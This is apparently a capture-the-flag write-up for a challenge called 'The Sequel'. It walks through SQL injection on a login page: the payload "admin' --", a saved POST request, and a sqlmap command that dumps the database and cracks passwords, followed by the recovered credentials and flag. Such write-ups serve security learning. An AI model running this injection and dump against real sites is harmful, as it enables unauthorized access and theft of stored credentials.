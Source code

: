 # Solution for The Sequel

Upon checking out the website, we see it's a simple login page. 

The name of the challenge hints about a SQL injection. So we try to enter some usernames such that server returns a mysql error, to verify
that the server is running SQL. We try: username = "admin' --" (without double quotes) which gives us an SQL error as expected:

![Screenshot_20220509_030254](https://user-images.githubusercontent.com/73381089/167316690-7de8b012-7867-4e37-bf35-c593e4c7b75c.png)

We can use the "sqlmap" tool to do the SQL injection for us. It can be found here: https://github.com/sqlmapproject/sqlmap

First, we save a demo login POST request which will be used as a reference by the "sqlmap". This can be done by trying to log in, 
and examining the POST request sent by the browser, and saving it to a file. Here's the request which I used:

```
POST /web/1/login.php HTTP/2
Host: web.ctf.devclub.in
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://web.ctf.devclub.in
Connection: keep-alive
Referer: https://web.ctf.devclub.in/web/1/login.php
Cookie: PHPSESSID=jmmc4dck4ruhe0lot9h52isvm4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
TE: trailers

username=aaa&password=aaa
```
Now, we run sqlmap: `python3 sqlmap -r dummy_request.txt -p username --dump`. It will then retrieve all the records in the SQL database on server via
SQL injection, and can even crack any passwords found via a dictionary attack.

![Screenshot_20220509_031428](https://user-images.githubusercontent.com/73381089/167317048-ed9fbe21-1757-4e10-82be-3e6ea4711636.png)

We get the credentials: username = "as1605" & password = "wildspirit"

We can then login and obtain the flag: CTF{7ql_1s_n0t_3asy_8_all}
